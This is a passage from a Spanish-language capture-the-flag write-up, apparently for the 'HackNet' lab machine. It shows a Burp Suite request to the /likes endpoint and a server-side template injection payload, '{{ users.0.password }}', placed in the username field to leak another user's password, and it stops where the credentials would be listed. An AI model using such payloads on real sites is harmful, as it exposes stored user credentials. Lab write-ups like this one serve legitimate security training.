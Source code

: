 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113531.png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos a `Explore`, le damos `like` a una publicacion, se incrementara dicho numero, pues con ese numero sabiendo que existe y que esta incrementado, vamos a utilizar el `likes` de la peticion con `BurpSuite` para enviarla donde le hemos dado `like`.

```
GET /likes/10 HTTP/1.1
Host: hacknet.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hacknet.htb/explore
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk
Priority: u=0


```

En la respuesta veremos...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113421.png" alt=""><figcaption></figcaption></figure>

Veremos que esta funcionando, esta renderizando el `email` de un usuario, por lo que la inyeccion esta funcionando, ahora vamos a probar con otra cosa como este `payload`.

```
{{ users.0.password }}
```

Quedando nuestro nombre de usuario como ese anterior `payload`, ahora si volvemos a enviar la peticion de `likes` para que lo renderice, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 113950.png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado tambien, por lo que tendremos estas credenciales:
